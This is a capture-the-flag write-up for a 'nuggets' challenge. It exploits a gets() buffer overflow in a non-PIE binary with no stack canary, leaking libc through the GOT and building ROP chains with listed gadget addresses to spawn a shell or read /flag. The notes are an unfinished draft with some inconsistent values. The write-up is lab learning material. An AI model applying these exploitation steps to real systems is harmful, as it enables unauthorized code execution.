 # Player
- Tim Niklas Gruel 1080 2021 2831
- username: realy0sh1

# Writeup: "nuggets"
- story:  no story :/
- start docker:
```
docker compose up
nc 127.0.0.1 1024
```
- the c file allows for an buffer overflow (gets write into buffer until newline):
```
int main(void)
{
    char buffer[16];
    gets(buffer);
}
```
- compiler flags say no canary (-fno-stack-protector) and no ASLR (-no-pie)
- the library includes libc (which has ASLR enabled), but as vuln does not have ASLR enabled, the global offset table is at a well knwon address
```
.got:000000000041BF40 ; ===========================================================================
.got:000000000041BF40
.got:000000000041BF40 ; Segment type: Pure data
.got:000000000041BF40 ; Segment permissions: Read/Write
.got:000000000041BF40 _got            segment qword public 'DATA' use64
.got:000000000041BF40                 assume cs:_got
.got:000000000041BF40                 ;org 41BF40h
.got:000000000041BF40 _GLOBAL_OFFSET_TABLE_ dq offset _DYNAMIC
.got:000000000041BF48 qword_41BF48    dq 0                    ; DATA XREF: sub_401020↑r
.got:000000000041BF50 qword_41BF50    dq 0                    ; DATA XREF: sub_401020+6↑r
.got:000000000041BF58 __snprintf_chk_ptr dq offset __snprintf_chk
.got:000000000041BF58                                         ; DATA XREF: ___snprintf_chk↑r
.got:000000000041BF60 free_ptr        dq offset free          ; DATA XREF: _free↑r
.got:000000000041BF68 __errno_location_ptr dq offset __errno_location
.got:000000000041BF68                                         ; DATA XREF: ___errno_location↑r
.got:000000000041BF70 write_ptr       dq offset write         ; DATA XREF: _write↑r
.got:000000000041BF78 strlen_ptr      dq offset strlen        ; DATA XREF: _strlen↑r
.got:000000000041BF80 __stack_chk_fail_ptr dq offset __stack_chk_fail
.got:000000000041BF80                                         ; DATA XREF: ___stack_chk_fail↑r
.got:000000000041BF88 snprintf_ptr    dq offset snprintf      ; DATA XREF: _snprintf↑r
.got:000000000041BF90 memset_ptr      dq offset memset        ; DATA XREF: _memset↑r
.got:000000000041BF98 close_ptr       dq offset close         ; DATA XREF: _close↑r
.got:000000000041BFA0 memchr_ptr      dq offset memchr        ; DATA XREF: _memchr↑r
.got:000000000041BFA8 read_ptr        dq offset read          ; DATA XREF: _read↑r
.got:000000000041BFB0 memcpy_ptr      dq offset memcpy        ; DATA XREF: _memcpy↑r
.got:000000000041BFB8 gets_ptr        dq offset gets          ; DATA XREF: _gets↑r
.got:000000000041BFC0 malloc_ptr      dq offset malloc        ; DATA XREF: _malloc↑r
.got:000000000041BFC8 __vsnprintf_chk_ptr dq offset __vsnprintf_chk
.got:000000000041BFC8                                         ; DATA XREF: ___vsnprintf_chk↑r
.got:000000000041BFD0 memmove_ptr     dq offset memmove       ; DATA XREF: _memmove↑r
.got:000000000041BFD8 open_ptr        dq offset open          ; DATA XREF: _open↑r
.got:000000000041BFE0 lseek64_ptr     dq offset lseek64       ; DATA XREF: _lseek64↑r
.got:000000000041BFE8 strerror_ptr    dq offset strerror      ; DATA XREF: _strerror↑r
.got:000000000041BFF0 __libc_start_main_ptr dq offset __libc_start_main
.got:000000000041BFF0                                         ; DATA XREF: _start+1B↑r
.got:000000000041BFF8 __gmon_start___ptr dq offset __gmon_start__
.got:000000000041BFF8                                         ; DATA XREF: _init_proc+4↑r
.got:000000000041BFF8 _got            ends
.got:000000000041BFF8
```
- for example the address of the gets function is stored at address: 000000000041BFB8 (via IDA)
- the local offset of gets is: 0x76040 
- that means address_of_gets - local_offset_gets = ASLR_offset
- local offset_system: 0x4c490
- address of system: ASLR_offset + offset_system = address_of_gets - local_offset_gets + offset_system = address_of_gets - 0x76040 + 0x4c490 = address_of_gets - 0x29BB0
- address of string "/bin/sh\x00" : ASLR_offset + 0x196031 = address_of_gets - local_offset_gets + 0x196031 = address_of_gets - 0x76040 + 0x196031 = address_of_gets + 0x11FFF1
- find gadgets with ropper
```
ropper --file ./vuln
ropper --file ./vuln --search syscall
ropper --file ./vuln --inst-count 2
```
- in total we do the following rop chain
    - get address of system()
        - mov rax, [got_gets]
            g1: 0x0000000000403f62: pop rdx; ret; (set stack to got_gets 0x476040)
            g2: 0x000000000040a8ee: pop rax; ret; (set stack to 0x0000000000000000)
            g3: 0x0000000000410c70: mov rax, qword ptr [rdx + rax*8]; ret; 
        - sub rax, 0x29BB0
            g4: 0x0000000000403f62: pop rdx; ret; (set stack to 0x29BB0)
            g5: 0x0000000000411937: sub rax, rdx; ret;
        - pop rdi (on stack is address of /bin/bash)
            g6: 0x0000000000401465: pop rdi; ret;
        - call rax
            g7: 0x0000000000401010: call rax;



##### lets fucking go
- set rcx to value of our choise 
0x0000000000403f62: pop rdx; ret; 
0x000000000040d6c7: lea rcx, [rdx + 0x558]; sub rax, rcx; sar rax, 2; ret; 
- set rax to pointer to /bin/sh
0x0000000000403f62: pop rdx; ret; (set stack to got_gets 0x476040)
0x000000000040a8ee: pop rax; ret; (set stack to 0x0000000000000000)
0x0000000000410c70: mov rax, qword ptr [rdx + rax*8]; ret; 
0x0000000000403f62: pop rdx; ret; (offset to /bin/sh)
0x0000000000411937: sub rax, rdx; ret;
- push pointer to /bin/sh to stack and call rcx
0x000000000040d2ab: push rax; mov edx, 0x1bf8; mov esi, 1; call rcx; 
- rcx is this instruction
0x00000000004129a3: mov rdi, qword ptr [rsp + 8]; mov eax, dword ptr [rdi + 0x40]; add rsp, 0x18; ret; 
- then stack has instruction of next: (! now we may not modify rdi !)
0x0000000000403f62: pop rdx; ret; (set stack to got_gets 0x476040)
0x000000000040a8ee: pop rax; ret; (set stack to 0x0000000000000000)
0x0000000000410c70: mov rax, qword ptr [rdx + rax*8]; ret; 
- sub rax, 0x29BB0
0x0000000000403f62: pop rdx; ret; (set stack to 0x29BB0)
0x0000000000411937: sub rax, rdx; ret;
- now in rax is address of system() and in rdi is pointer to /bin/bash
0x0000000000401010: call rax;


#####

















- we have libz.a in binary without ASLR = known offsets
    - open('/flag')
        - first argument (rdi) is pointer to string/filename
            - 0x0000000000401465: pop rdi; ret; (b'/flag\x00\x00\x00' on stack)
        - second argument (rsi) are flags (set to 0 = readonly)
            - 0x0000000000404cc0: pop rsi; ret;  (b'\x00\x00\x00\x00\x00\x00\x00\x00' on stack)
        - open
        - now we have fd_flag in rax
    - write(fd_flag)
        - first argument (rdi) is output(stdout)
            - 0x0000000000401465: pop rdi; ret; (1 on stack)
        - second argument (rsi) is 


- we write b'/bin/sh\0x00' (8 bytes) to stack
- we use libz.a do to a ROP chain (rop-syscall-execv), we need the following gadgets:
    - pop rdi;ret; (and we write b'/bin/sh\0x00' to stack)
        - 0x0000000000401465: pop rdi; ret; 
    - mov rax, 59; ret; (write 59 to stack)
        - 0x000000000040a8ee: pop rax; ret;
    - mov rsi, 0; ret; (write 0 to stack)
        - 0x0000000000404cc0: pop rsi; ret; 
    - mov rdx, 0; ret; (write 0 to stack)
        - 0x0000000000403f62: pop rdx; ret; 
    - syscall;


